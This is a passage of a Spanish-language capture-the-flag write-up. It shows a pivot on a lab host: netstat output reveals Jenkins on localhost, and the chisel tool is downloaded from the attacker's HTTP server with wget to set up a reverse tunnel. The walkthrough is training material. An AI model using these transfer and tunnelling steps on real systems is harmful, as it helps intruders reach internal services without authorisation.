 Si lo comprobamos vemos que esta corriendo en ese puerto

```bash
aubreanna@internal:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:42493         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0    316 10.10.182.2:22          10.2.28.226:53418       ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
aubreanna@internal:~$ 
```

Bueno para poder ver el contenido del `Jenkins` podemos hacerlo con `SSH` o con [chisel](https://github.com/jpillora/chisel/releases/tag/v1.8.1) Yo lo hare con `chisel`

Primero nos vamos a transferir el `chisel` a la maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.182.2 - - [20/Apr/2023 17:53:26] "GET /chisel HTTP/1.1" 200 -
```

```bash
aubreanna@internal:/tmp$ wget http://10.2.28.226:80/chisel
--2023-04-20 23:53:26--  http://10.2.28.226/chisel
Connecting to 10.2.28.226:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8384512 (8.0M) [application/octet-stream]
Saving to: ‘chisel’

chisel                          100%[=======================================================>]   8.00M   991KB/s    in 17s     

2023-04-20 23:53:43 (495 KB/s) - ‘chisel’ saved [8384512/8384512]

aubreanna@internal:/tmp$ chmod +x chisel 
aubreanna@internal:/tmp$ 
```

En nuestra maquina de atacante nos vamos a poner en modo servidor

```bash
❯ ./chisel server --reverse -p 1234
2023/04/20 17:54:21 server: Reverse tunnelling enabled
2023/04/20 17:54:21 server: Fingerprint i0ZFO3IWlNcihDo9DHLA4/aL6sBcxh9lZlmjoJh1hrs=
2023/04/20 17:54:21 server: Listening on http://0.0.0.0:1234

```

Y ahora nos vamos a traer el puerto `8080` a nuestra maquina
